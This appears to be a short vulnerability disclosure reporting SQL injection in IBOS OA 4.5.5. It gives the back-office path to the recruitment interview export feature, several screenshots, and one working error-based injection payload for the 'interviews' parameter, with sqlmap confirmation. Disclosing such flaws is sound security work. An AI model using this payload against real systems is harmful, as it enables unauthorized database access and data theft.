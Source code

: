 SQL injection vulnerability in ibos oa v4.5.5

official website： http://www.ibos.com.cn/

version：4.5.5

Log in to the background. General Office => Recruitment Management => Interview Management => More Operations => Export Capture and Error Injection Succeeded
![image](https://github.com/xiaosed/cve/assets/84080097/48620232-c209-43b5-87e8-4334b2c7ff38)
![image](https://github.com/xiaosed/cve/assets/84080097/1103e24d-e97d-495b-be21-825e0d19c763)
![image](https://github.com/xiaosed/cve/assets/84080097/640e7fba-833a-4eed-8a2d-d7fcd2264071)

payload:interviews=1'and/**/extractvalue(1,concat(char(126),md5(1703919257)))and'
sqlmap：
![image](https://github.com/xiaosed/cve/assets/84080097/aabdd8ae-2063-42ae-afb4-5c6024e04865)



